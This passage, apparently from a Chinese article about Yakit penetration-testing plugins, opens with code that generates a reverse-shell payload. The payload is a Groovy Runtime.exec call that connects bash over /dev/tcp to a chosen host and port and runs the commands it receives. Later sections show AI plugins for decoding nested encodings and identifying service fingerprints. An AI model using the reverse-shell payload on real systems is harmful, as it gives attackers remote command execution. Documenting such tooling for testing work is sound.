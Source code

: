 ```
    add(sprintf(`r = Runtime.getRuntime();p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/%v/%v;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor()`, host, port))
    return str.Join(lines, "\n")
}
```  
  
划取需要生成payload的数据之后，即可自动生成反弹shellpayload。  
  
![](/articles/wechat2md-1e33d573794294b7fd08667e28796128.png)  
  
### **关卡2：AI识别编码插件**  
  
值得一提是yakit更新**AI插件联动此处**，在新的AI中有更新好的体验  
```
handle = func(origin /*string*/) {
    question = f`Given the following encrypted text snippet, it is suspected that the text may have been encoded multiple times using different methods. Please determine the sequence of encodings used as far as possiable and provide the final plaintext after decoding.
Do not include any explanations, only provide a  RFC8259 compliant JSON response  following this format without deviation:
{"cipher":"the ciper text","plain":"the plain text","encoding":"possible encoding, using -> to indicate the process"}\nciper text: \`\`\`${origin}\`\`\`\n\nThe JSON response:`
    result, err = ai.Chat(question)
    if err != nil {
        return "解析失败，错误: %v" % err
    }
    dump(result)
    jsons = json.ExtractJSON(result)
    if len(jsons) > 0 {
        obj = json.loads(jsons[0])
        try {
            plaintext = obj["plain"]
            encoding = obj["encoding"]
            return f"编码步骤:${encoding}\n明文:${plaintext}"
        } catch e {
            log.Error("[Plugin] [OpenAI] Get response from json error: %v", e)
        }
    }

    return "解析失败，请检查是否在全局网络配置中配置了ai key或网络是否存在问题"
}
```   
  
这是一个AI自动解码的插件，他会使用AI去尝试判断数据的编码，可以一定程度上解决复杂编码的识别问题。  
  
下面是一个base64编码嵌套url 编码的数据，使用AI自动解码识别的案例。  
  
![](/articles/wechat2md-439ad2b76a4215c8d615d2bd708c4578.png)  
  
### **关卡3：AI识别指纹插件**  
```
handle = func(origin /*string*/) {
    question = f`Identify the service fingerprints, from the provided data packet without detailing the analysis process.
Do not include any explanations. data packet: \`\`\`${origin}\`\`\`\n\nThe JSON response:`
    result, err = ai.Chat(question)
    if err != nil {
        return "解析失败，错误: %v" % err
    }
    dump(result)
    jsons = json.ExtractJSON(result)
    if len(jsons) > 0 {
        obj = json.loads(jsons[0])
        try {
            fingerprint = obj["fingerprint"]
```